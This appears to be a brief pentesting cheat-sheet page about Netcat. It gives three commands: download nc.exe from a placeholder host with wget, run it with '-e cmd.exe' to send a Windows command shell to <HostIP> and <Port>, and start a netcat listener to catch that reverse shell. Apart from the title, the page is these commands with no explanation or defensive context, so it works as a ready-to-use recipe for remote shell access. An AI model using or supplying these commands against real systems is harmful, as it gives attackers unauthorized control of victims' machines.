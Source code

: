 ```yaml
---
description: Network Cat
---
```


# Netcat

### Get file

```bash
wget http://<HostIP>/nc.exe -outfile nc.exe
```

### Run  Windows

```bash
.\nc.exe -e cmd.exe <HostIP> <Port>
```

### Listening&#x20;

```bash
nc -nvlp <Port>
```
